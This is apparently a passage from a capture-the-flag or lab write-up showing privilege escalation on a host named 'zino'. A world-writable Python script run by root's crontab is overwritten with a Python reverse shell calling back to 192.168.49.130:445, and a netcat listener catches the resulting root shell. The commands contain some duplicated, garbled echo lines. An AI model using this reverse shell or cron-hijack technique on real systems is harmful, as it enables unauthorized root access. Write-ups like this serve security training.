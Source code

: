 ```bash
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/3 *   * * *   root    python /var/www/html/booked/cleanup.py
#
www-data@zino:/$

The last job (python /var/www/html/booked/cleanup.py) is worth investigating, especially since it runs with root privileges. It is owned by the www-data user.

www-data@zino:/$ ls -la /var/www/html/booked/cleanup.py
ls -la /var/www/html/booked/cleanup.py
-rwxrwxrwx 1 www-data www-data 164 Apr 28  2020 /var/www/html/booked/cleanup.py
www-data@zino:/$

This means that we can write to the file and the contents of the file will be executed as root. We can abuse this misconfiguration by replacing the contents of the python script with a reverse shell.

www-data@zino:/$ echo "" > /var/www/html/booked/cleanup.py
echo """" > /var/www/html/booked/cleanup.py
www-data@zino:/$  cat <<EOT>> /var/www/html/booked/cleanup.py
 cat <<EOT>> /var/www/html/booked/cleanup.py
> import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.130",445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
<s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
> EOT
EOT
www-data@zino:/$

Let’s set up a netcat listener on port 445 and wait for the cron job to run.

kali@kali:~$ sudo nc -lvp 445
listening on [any] 445 ...
192.168.130.64: inverse host lookup failed: Unknown host
connect to [192.168.49.130] from (UNKNOWN) [192.168.130.64] 50572
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
Eventually, we receive a connection and confirm that we have a root shell!
```
